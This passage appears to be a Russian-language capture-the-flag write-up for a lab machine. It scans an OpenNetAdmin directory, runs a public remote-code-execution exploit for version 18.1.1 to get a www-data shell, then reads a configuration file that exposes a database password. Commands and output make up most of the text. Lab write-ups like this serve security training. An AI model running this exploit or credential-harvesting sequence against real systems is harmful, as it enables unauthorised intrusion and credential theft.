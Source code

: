 >Среди прочего, только один каталог представляет интерес, просканим и его на всякий:

```html
root@kali:~/Downloads# dirb http://10.10.10.171/ona/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Apr  2 10:02:02 2020
URL_BASE: http://10.10.10.171/ona/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4613                                                          

---- Scanning URL: http://10.10.10.171/ona/ ----
+ http://10.10.10.171/ona/a (CODE:200|SIZE:2)                                  
==> DIRECTORY: http://10.10.10.171/ona/config/                                 
==> DIRECTORY: http://10.10.10.171/ona/images/                                 
==> DIRECTORY: http://10.10.10.171/ona/include/                                
+ http://10.10.10.171/ona/index.php (CODE:200|SIZE:25070)                      
==> DIRECTORY: http://10.10.10.171/ona/local/                                  
==> DIRECTORY: http://10.10.10.171/ona/modules/                                
==> DIRECTORY: http://10.10.10.171/ona/plugins/
```

>Тоже ничего, но на главной странице /ona указана устаревшая версия OpenNetAdmin 18.1.1. Найти эксплойт не составило труда - https://www.exploit-db.com/exploits/47691
>Сделаем файл исполняемым и запустим:

```html
root@kali:~# ./exp.sh http://10.10.10.171/ona/
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

>Через удаленное выполнение кода получен доступ к оболочке. Но мы не можем покинуть текущий каталог, поэтому придется искать таким образом:

```html
$ ls -l /opt/ona/www/local/config/
total 8
-rw-r--r-- 1 www-data www-data  426 Nov 21 16:51 database_settings.inc.php
-rw-rw-r-- 1 www-data www-data 1201 Jan  3  2018 motd.txt.example
-rw-r--r-- 1 www-data www-data    0 Nov 21 16:28 run_installer
```

>Спустя некоторое время нашелся файл с информацией для следующего шага:

```html
$ cat /opt/ona/www/local/config/database_settings.inc.php
?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => '<mark>n1nj4W4rri0R!</mark>',
        'db_database' => 'ona_default',
```